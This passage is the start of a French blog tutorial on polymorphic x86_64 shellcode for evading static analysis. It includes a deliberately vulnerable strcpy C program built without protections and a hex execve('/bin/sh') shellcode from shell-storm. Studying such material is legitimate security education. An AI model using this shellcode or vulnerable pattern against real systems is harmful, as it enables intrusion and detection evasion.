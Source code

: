 ```yaml
---
title: Shellcode Polymorphique x86_64
date: 2017-02-04T01:13:18+00:00
author: Zweisamkeit
layout: default
permalink: /shellcode-polymorphique/
categories:
  - Sécurité Systèmes
---
```

# Shellcode polymorphique x86_64

Les attaques par buffer overflow pouvant s'avérer très dangereuses, de nombreux mécanismes de défense ont été mis en place : randomisation des adresses (ASLR), pile non-exécutable (NX), canary (SSP), ou encore analyses statiques (filtrage, hash), dynamiques (exécution isolée de l'input).

Nous allons nous intéresser au contournement des mécanismes d'analyse statique, et dans une moindre mesure de certaines formes d'analyse dynamique, à l'aide d'un paradigme de shellcoding bien connu, mais très peu documenté sur l'architecture x86_64 : le polymorphisme.
1. Shellcode classique


Tout d'abord, considérons le code C suivant, comportant une vulnérabilité de type stack buffer overflow au niveau de l'appel à la fonction strcpy :
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gcc vuln.c -o vuln -fno-stack-protector -z execstack
 
int main(int argc, char **argv){
 
* char buffer[256];
* int i=0;
 
* printf("Adresse buffer : %p\n", buffer);
* 
* strcpy(buffer, argv[1]);
 
* return 0;
}
```

Supposons par ailleurs que l'ASLR a été désactivé, que la pile est exécutable, et que le SSP a été désactivé lors de la compilation.

Dans cette configuration, il suffit de placer un shellcode 64 bits dans le buffer, et d'écraser le pointeur d'instruction de telle sorte qu'il saute au début du buffer, parcourt les nopsleds et remonte jusqu'au shellcode, qui sera donc exécuté.

Considérons le shellcode suivant, obtenu sur shell-storm, qui lance la commande « /bin/sh » :
```
\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05
```
